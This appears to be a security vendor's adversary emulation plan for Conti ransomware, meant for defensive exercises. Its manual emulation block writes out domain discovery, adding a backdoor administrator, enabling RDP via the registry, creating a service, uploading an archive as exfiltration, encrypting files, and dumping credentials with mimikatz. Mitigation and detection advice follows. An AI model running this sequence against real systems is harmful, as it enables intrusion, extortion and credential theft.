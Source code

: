 # Conti Ransomware Adversary Emulation Plan

## Executive Summary
For this #ThreatThursday we are looking at one of the most common ransomware threats, Conti. 

## Cyber Threat Intelligence
This threat is based on The DFIR Report post on May 12, 2021: https://thedfirreport.com/2021/05/12/conti-ransomware/

### Profile
Conti is currently the “King of Ransomware on the DarkWeb” according to DarkTracer. They operate Ransomware-as-a-Service and are believed to be Russian.

### Targets
Conti ransomware has impacted healthcare and first responder networks as per the FBI Flash and multiple news outlets covering Ireland, New Zealand, and Canada health services. As Conti that has hit hundreds of organizations, we have enough CTI to create an adversary emulation plan.

### Objectives
- Double Extortion
- Ransomware
- Exfiltration of Data

## Attack
This section covers how to emulate the attack at the procedure level. 

### Automated Emulation
To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/Conti/Conti_scythe_threat.json
2. Download the Virtual File System (VFS) files under Conti/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/Conti
4. Create a new campaign, selecting HTTPS, and ensuring the communication options match the CTI: --cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 62 --jitter 39
5. Set the Program database path to: A:\source\conti_v3\x64\Release\cryptor_dll.pdb 
6. Import from Existing Threat: Conti
7. Launch Campaign
8. Execute with rundll32.exe

Note that different TTPs will be performed based on the endpoint being on a domain or not and running with local administrator privileges or not.

### Manual Emulation
```
Start (with https, loader, and controller)
STEP = DISCOVERY
loader --load run
run ipconfig /all
run systeminfo
run whoami /groups
run net config workstation
run net use
run nltest /domain_trusts
run nltest /domain_trusts /all_trusts
run net view /all /domain
run net view /all
run net group "Domain Admins" /domain
STEP = PERSIST
controller --integrity
If step 16 does not contain "High" goto step 22
run net user /add /Y nuuser 7HeC00l3stP@ssw0rd
run net localgroup administrators nuuser /add
run cmd.exe /C reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
run cmd /c sc.exe create Conti binpath= c:\windows\system32\Conti.exe type= share start= auto
STEP = IMPACT
loader --load crypt
loader --load downloader
loader --load file
loader --load uploader
run powershell mkdir "%USERPROFILE%\Desktop\Conti"
file --create --path "%USERPROFILE%\Desktop\Conti\target_file.doc" --size 1MB --count 100 --random
run powershell "Compress-Archive -Path $env:userprofile\Desktop\Conti -CompressionLevel Optimal -Destination $env:userprofile\Desktop\exfil.zip"
uploader --remotepath "%USERPROFILE%\Desktop\exfil.zip"
crypt --target "%USERPROFILE%\Desktop\Conti\" --encrypt --password "dTonVhthjUJCMM6JkCi8" --erase
downloader --src "VFS:/shared/Conti/readme.txt" --dest "%USERPROFILE%\Desktop\readme.txt"
run powershell notepad "%USERPROFILE%\Desktop\readme.txt"
STEP = CLEANUP
run cmd /c rmdir /Q /S %USERPROFILE%\Desktop\Conti"
run cmd /c del "%USERPROFILE%\Desktop\exfil.zip"
run cmd /c del "%USERPROFILE%\Desktop\README.txt"
controller --integrity
If step 38 does not contain "High" goto step 46
run cmd.exe /C reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x1 /f
run net localgroup administrators nuuser /del
run net user /del nuuser
run sc delete Conti
loader --load mimikatz
mimikatz --arglist sekurlsa::logonPasswords
controller --shutdown
Finish
```

## Detection Opportunities
The FBI Flash covers a number of mitigations that we are providing in this post but also want to add a few items related to detection and response. Prevention will make initial access and execution a little harder but for those, logically, working under assumed breach, we need detection and response:

- Regularly back up data, air gap, and password protect backup copies offline. Ensure copies of critical data are not accessible for modification or deletion from the system where the data resides.
- Implement network segmentation.
- Implement a recovery plan to maintain and retain multiple copies of sensitive or proprietary data and servers in a physically separate, segmented, secure location (i.e., hard drive, storage device, the cloud).
- Install updates/patch operating systems, software, and firmware as soon as they are released.
- Use multifactor authentication where possible.
- Use strong passwords and regularly change passwords to network systems and accounts, implementing the shortest acceptable timeframe for password changes. Avoid reusing passwords for multiple accounts.
- Disable unused remote access/RDP ports and monitor remote access/RDP logs.
- Require administrator credentials to install software.
- Audit user accounts with administrative privileges and configure access controls with least privilege in mind.
- Install and regularly update anti-virus and anti-malware software on all hosts.
- Only use secure networks and avoid using public Wi-Fi networks. Consider installing and using a VPN.
- Consider adding an email banner to messages coming from outside your organizations.
- Disable hyperlinks in received emails.
- Focus on cyber security awareness and training. Regularly provide users with training on information security principles and techniques as well as overall emerging cybersecurity risks and vulnerabilities (i.e., ransomware and phishing scams).
- Detect when new services are created on endpoints
- Detect when certain registry keys are modified such as enabling Remote Desktop Protocol
- Detect when new users are created and/or added to the local administrator group


## References
- https://thedfirreport.com/2021/05/12/conti-ransomware/
- https://www.aha.org/system/files/media/file/2021/05/fbi-tlp-white-report-conti-ransomware-attacks-impact-healthcare-and-first-responder-networks-5-20-21.pdf?mod=djemCybersecruityPro&tpl=cy
